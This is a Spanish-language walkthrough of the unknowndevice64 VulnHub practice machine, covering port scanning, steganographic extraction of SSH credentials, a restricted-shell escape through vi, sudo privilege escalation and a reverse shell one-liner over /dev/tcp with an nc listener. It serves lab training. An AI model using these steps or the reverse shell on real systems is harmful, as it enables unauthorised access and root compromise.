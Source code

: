 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# unknowndevice64 VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 03:23 EDT
Nmap scan report for 192.168.195.135
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
1337/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:af:04:6d:f1:8c:59:3a:d6:e1:96:b7:f7:fc:57:83 (RSA)
|   256 12:68:4c:6b:96:1e:51:59:32:8a:3d:41:0d:55:6b:d2 (ECDSA)
|_  256 da:3e:28:52:30:72:7a:dd:c3:fb:89:7e:54:f4:bb:fb (ED25519)
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title:    Website By Unknowndevice64   
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
MAC Address: 00:0C:29:A2:21:34 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 192.168.195.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

Si vamos al codigo de la pagina en el puerto `31337` vemos que hay una imagen en un comentario por lo que si vamos a la siguiente ruta...

```
http://<IP>:31337/key_is_h1dd3n.jpg
```

Veremos una imagen que nos vamos a descargar y utilizar el siguiente comando para que nos extraiga de la imagen lo que contenga...

```shell
steghide extract -sf <IMAGE>
```

Y como salvoconducto (password) pondremos la palabra que aparece en la pagina `h1dd3n` y nos extraera un .txt

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.
```

Si decodificamos esto quedaria...

```
ud64:1M!#64@ud
```

Por lo que es un usuario y contraseña:

```
User: ud64
Password: 1M!#64@ud
```

Nos conectaremos por ssh...

```shell
ssh ud64@<IP> -p 1337
```

Tendremos una restricted bash por lo que escapamos de la siguiente manera...

```
vi
:!/bin/bash
<ENTER>
```

Y ya habriamos escapado, despues el PATH esta roto, por lo que haremos...

```shell
export PATH=<$PATH>
```

Si hacemos `sudo -l` veremos que tenemos lo siguiente...

Info:

```
User ud64 may run the following commands on unknowndevice64_v1: 
(ALL) NOPASSWD: /usr/bin/sysud64
```

Podemos ejecutar ese binario como `root` por lo que haremos lo siguiente...

```shell
sudo /usr/bin/sysud64 /bin/bash
```

Te llevara a una shell bastante rara y ahi pegamos un codigo de Reverse Shell...

```shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Estando a la escucha...

```shell
nc -lvnp <PORT>
```

Una vez que lo enviemos y estando a la escucha nos dara una shell como `root` por lo que leemos la flag de root y ya estaria.
